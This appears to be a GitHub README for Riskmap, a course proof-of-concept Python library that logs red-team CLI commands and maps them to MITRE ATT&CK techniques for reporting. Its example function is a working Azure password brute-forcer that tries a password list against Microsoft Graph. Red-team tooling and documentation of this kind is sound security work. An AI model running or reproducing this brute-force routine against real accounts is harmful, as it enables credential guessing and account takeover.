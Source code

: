 # Riskmap

Python utility for red teaming and penetration testing CLI tools to map commands and modules to the MITRE ATT&CK framework. A sample CLI program has been provided in [riskcli.py](./samples/riskcli/riskcli.py)

## Basic Concept

This library provides a `AttckMapper` class with a `mapping` decorator that can be used on functions that perform an offensive technique.

### _Example function:_

```python
@app.command()
@atmap.mapping(enterprise=["T1110.001", "M1032"])
def azbrute(
    username: str = typer.Option(..., "-u", help="Username to bruteforce"),
    passList: Path = typer.Option(..., "-p", help="Path to password list"),
):
    """Bruteforces password for an Azure account"""
    validCred = {"user": username, "pass": None}
    with open(passList, "r", encoding="latin-1") as passes:
        for pwd in passes.read().splitlines():
            login = UsernamePasswordCredential(
                "1950a258-227b-4e31-a9cf-717495945fc2", username, pwd
            )
            try:
                token = login.get_token("https://graph.microsoft.com/.default")
                validCred["pass"] = pwd
            except ClientAuthenticationError as e:
                pass

    if not validCred["pass"]:
        raise CommandUnsuccessfulError(f"Brute force for {username} unsuccessful")
    typer.echo(f"\nCredential found! - {validCred}\n")
```

The decorator function will perform as normal and actions will be logged. When a report is generated, the IDs are looked up to provide a comprehensive description of what events took place, the techniques involved, and any additional references found in the MITRE matrices (CWE, CAPEC, etc).

If the `azbrute` command in the example function is successful, the following line will be logged:\

`{"command": "azbrute", "startTime": "11/24/2020 08:14:26", "endTime": "11/24/2020 08:14:27", "args": [], "kwargs": {"username": "<username>", "passList": "passlist.txt"}, "details": {}, "mapping": {"enterprise": ["T1110.001", "M1032"], "mobile": [], "ics": []}} `

### _Report Generation Example:_

```python
@app.command()
def genreport(path: Path = typer.Argument(..., help="Path to riskmap log")):
    rrg = RiskmapReportGenerator(path)
    rrg.to_excel("output-report.xlsx")
```

|     | command | startTime           | endTime             | args | kwargs                                       | details | mapping                                                     | extended_lookup                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| --- | ------- | ------------------- | ------------------- | ---- | -------------------------------------------- | ------- | ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1   | azbrute | 11/24/2020 08:14:26 | 11/24/2020 08:14:27 |      | username: username<br>passList: passlist.txt |         | enterprise: ['T1110.001', 'M1032']<br>mobile: []<br>ics: [] | T1110.001: https://attack.mitre.org/wiki/Technique/T1110/001<br>CAPEC-49: https://capec.mitre.org/data/definitions/49.html<br>CWE-521: http://cwe.mitre.org/data/definitions/521.html<br>CWE-262: http://cwe.mitre.org/data/definitions/262.html<br>CWE-263: http://cwe.mitre.org/data/definitions/263.html<br>CWE-257: http://cwe.mitre.org/data/definitions/257.html<br>CWE-654: http://cwe.mitre.org/data/definitions/654.html<br>CWE-307: http://cwe.mitre.org/data/definitions/307.html<br>CWE-308: http://cwe.mitre.org/data/definitions/308.html<br>CWE-309: http://cwe.mitre.org/data/definitions/309.html<br>M1032: https://attack.mitre.org/mitigations/M1032 |

This library has been tested with the [Typer](https://typer.tiangolo.com/) and therefore should also work with the [Click](https://github.com/pallets/click) library as well. By all accounts, the decorator should work with any normal synchronous function.

### Note

**_This library was written for Dakota State University's Managing Security Risk course and may not be maintained in the future. This is a proof-of-concept._**
